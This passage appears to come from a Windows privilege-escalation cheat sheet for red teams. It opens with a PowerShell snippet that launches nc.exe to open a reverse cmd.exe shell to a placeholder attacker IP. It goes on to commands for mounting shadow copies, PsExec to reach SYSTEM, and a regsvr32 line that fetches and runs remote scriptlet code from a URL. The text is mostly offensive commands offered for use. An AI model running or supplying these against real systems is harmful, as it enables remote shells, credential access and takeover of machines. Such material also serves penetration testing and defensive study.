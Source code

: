```
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

## EoP - Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Privilege Escalation.

```
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows

# List shadow copies using diskshadow
diskshadow list shadows all

# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

## EoP - From local administrator to NT SYSTEM

```
PsExec.exe -i -s cmd.exe
```

## EoP - Living Off The Land Binaries and Scripts

Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/

> The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

- Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft. Have extra "unexpected" functionality. It is not interesting to document intended use cases. Exceptions are application whitelisting bypasses
- Have functionality that would be useful to an APT or red team

```
wmic.exe process call create calc
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
Microsoft.Workflow.Compiler.exe tests.xml results.xml
```

## EoP - Impersonation Privileges

Full privileges cheatsheet at https://github.com/gtworek/Priv2Admin, summary below will only list direct ways to exploit the privilege to obtain an admin session or read sensitive files.
